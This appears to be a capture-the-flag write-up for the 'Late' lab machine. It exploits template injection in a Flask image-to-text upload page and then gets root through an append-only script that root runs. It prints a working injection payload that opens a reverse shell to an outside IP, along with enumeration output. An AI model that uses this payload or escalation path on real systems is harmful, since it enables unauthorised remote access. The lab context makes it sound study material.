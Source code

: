 ## Info

### Credential

| User    | Password | Service | Note |
| ------- | -------- | ------- | ---- |
| svc_acc |          |         |      |

### System

- domain: `late.htb`

## Path

### User

1. `images.late.htb` can upload image. And the title of the webpage says "with Flask", so I guess SSTI might be used.
2. The upload image will be converted into text, then use `render_template_string()` to process the text. So we can do SSTI to get shell. Since the OCR isn't so accurate, keep the backgroup clean and use a clear font help a lot.

```text
{{ cycler.__init__.__globals__.os.popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.17.233/9000 0>&1"').read() }}
```

### Root

1. The machine is running ESMTP using `sendmail`.

```bash
svc_acc@late:/$ netstat -ln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN

svc_acc@late:/$ curl 127.0.0.1:25
220 localhost.localdomain ESMTP Sendmail 8.15.2/8.15.2/Debian-10; Fri, 29 Jul 2022 07:05:41 GMT; (No UCE/UBE) logging access from: localhost.localdomain(OK)-localhost.localdomain [127.0.0.1]
421 4.7.0 localhost.localdomain Rejecting open proxy localhost.localdomain [127.0.0.1]

svc_acc@late:/tmp/.dont-look$ ls /var/backups/
-rw-r--r--  1 root smmsp    65205 Jan 14  2022 sendmail.cf.bak
-rw-r--r--  1 root smmsp     4209 Jan 14  2022 sendmail.mc.bak
-rw-------  1 root shadow    1310 Apr  7 13:22 shadow.bak
-rw-r--r--  1 root smmsp    44599 Jan 14  2022 submit.cf.bak
-rw-r--r--  1 root smmsp     2375 Jan 14  2022 submit.mc.bak
```

2. We have write permission to `/usr/local/sbin/ssh-alert.sh`, but when using `vim` to edit it, it failed. By using `lsattr`, we can see that we can only append to it.

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
---a----------e----- /usr/local/sbin/ssh-alert.sh
```

3. By monitoring the processes with `pspy64`, we saw that root will excute `ssh-alert.sh`. Thus, we can get shell.
